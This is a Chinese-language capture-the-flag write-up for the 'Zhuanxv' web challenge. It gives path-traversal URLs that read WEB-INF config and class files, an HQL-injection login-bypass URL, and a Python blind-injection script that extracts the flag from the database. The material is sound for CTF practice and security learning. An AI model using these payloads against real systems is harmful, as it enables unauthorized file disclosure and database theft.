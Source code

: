 # Zhuanxv

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=ab3e7454-5dc0-4157-8c3d-d77e5e1b7de0_2)

好阴间的web题。

进入网站，只有一个页面不断更新显示当前时间。源代码也没东西。这个时候一般就是看robots.txt或者直接目录爆破。爆破后得到/list路径。

- http://61.147.171.105:62006/list

提示请登录。登录咱就熟悉了，很有可能和sql注入有关。万能密码什么的肯定不行，看看源代码有没有提示sql语句之类的。提示没找到，倒是发现了奇怪的url。

```html
body{
    background:url(./loadimage?fileName=web_login_bg.jpg) no-repeat center;
    background-size: cover;
}
```

这种用get传参传个文件名还藏这么深的10个有8个有文件包含漏洞。从cookie为JSESSIONID猜测为java网页项目，那看看网站的配置文件总不会错。web项目的资源一般放在/src/main/resources/static下，配置文件则在/src/main/webapp/WEB_INF下。从上面的加载方式发现我们当前在static目录中，那么找WEB_INF就是../../webapp/WEB_INF/web.xml（配置文件一般叫web.xml)。但是没找到，原来是直接../../WEB_INF/web.xml就行了(看[wp](https://blog.csdn.net/l8947943/article/details/122372989)不要只看一半啊）。

- http://61.147.171.105:62006/loadimage?fileName=../../WEB-INF/web.xml

下载下来后缀为jpg。不慌，打开看看。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app id="WebApp_9" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Struts Blank</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>/ctfpage/index.jsp</welcome-file>
    </welcome-file-list>
    <error-page>
        <error-code>404</error-code>
        <location>/ctfpage/404.html</location>
    </error-page>
</web-app>
```

struts2是什么框架我不懂，不过struts2的核心配置文件是struts.xml。该文件主要负责管理应用中的Action映射，以及该Action包含的Result定义等。这么重要的东西不能不看。

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
        "http://struts.apache.org/dtds/struts-2.3.dtd">
<struts>
	<constant name="strutsenableDynamicMethodInvocation" value="false"/>
    <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
    <constant name="struts.action.extension" value=","/>
    <package name="front" namespace="/" extends="struts-default">
        <global-exception-mappings>
            <exception-mapping exception="java.lang.Exception" result="error"/>
        </global-exception-mappings>
        <action name="zhuanxvlogin" class="com.cuitctf.action.UserLoginAction" method="execute">
            <result name="error">/ctfpage/login.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
        <action name="loadimage" class="com.cuitctf.action.DownloadAction">
            <result name="success" type="stream">
                <param name="contentType">image/jpeg</param>
                <param name="contentDisposition">attachment;filename="bg.jpg"</param>
                <param name="inputName">downloadFile</param>
            </result>
            <result name="suffix_error">/ctfpage/welcome.jsp</result>
        </action>
    </package>
    <package name="back" namespace="/" extends="struts-default">
        <interceptors>
            <interceptor name="oa" class="com.cuitctf.util.UserOAuth"/>
            <interceptor-stack name="userAuth">
                <interceptor-ref name="defaultStack" />
                <interceptor-ref name="oa" />
            </interceptor-stack>

        </interceptors>
        <action name="list" class="com.cuitctf.action.AdminAction" method="execute">
            <interceptor-ref name="userAuth">
                <param name="excludeMethods">
                    execute
                </param>
            </interceptor-ref>
            <result name="login_error">/ctfpage/login.jsp</result>
            <result name="list_error">/ctfpage/welcome.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
    </package>
</struts>
```

每个action标签内的class字段内容就是我们要找的映射文件。全部看一遍。

- http://61.147.171.105:62006/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.class<br>http://61.147.171.105:62006/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/DownloadAction.class<br>http://61.147.171.105:62006/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/util/UserOAuth.class<br>http://61.147.171.105:62006/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/action/AdminAction.class

这些文件名都是有规律的。它们都在WEB-INF/classes文件夹下，毕竟都是class。剩下的路径就看class字段的内容了。下载下来后记得修改文件名称为.class，然后在vscode中找个decompiler插件进行反编译。UserLoginAction.class中引用了几个包，都用上面的方法下载下来看看。从user.hbm.xml得知表名和类名映射；从com/cuitctf/service/impl/UserServiceImpl.class得知过滤规则，用户名只过滤空格和等号，密码限制只能字母+数字；从com/cuitctf/dao/impl/UserDaoImpl.class得知hql语句，变量拼接导致hql注入。

[hql注入](https://www.sec-in.com/article/144)又是什么玩意？从名字就知道和sql注入很像，但是比sql鸡肋多了，功能非常少。看wp吧，得到注入url。

- http://61.147.171.105:62006/zhuanxvlogin?user.name=admin%27%0Aor%0A%271%27%3E%270%27%0Aor%0Aname%0Alike%0A%27admin&user.password=1

然而进来了也没用，flag在数据库里，登录的页面就是个好看的空壳。最后爆flag。

```python
import requests
s=requests.session()

FLAG=''
for i in range(1,50):
    p=''
    for j in range(1,255):
        payload="(select%0Aascii(substr(id,"+str(i)+",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'"+str(j)+"'"
        #print payload
        url="http://61.147.171.105:62006/zhuanxvlogin?user.name=admin'%0Aor%0A"+payload+"%0Aor%0Aname%0Alike%0A'admin&user.password=1"
        r1=s.get(url)
        #print url
        #print len(r1.text)
        if len(r1.text)>20000 and p!='':
            FLAG+=p
            print i,FLAG
            break
        p=chr(j)
```

这篇摆大烂。

- ### Flag
  > sctf{C46E250926A2DFFD831975396222B08E}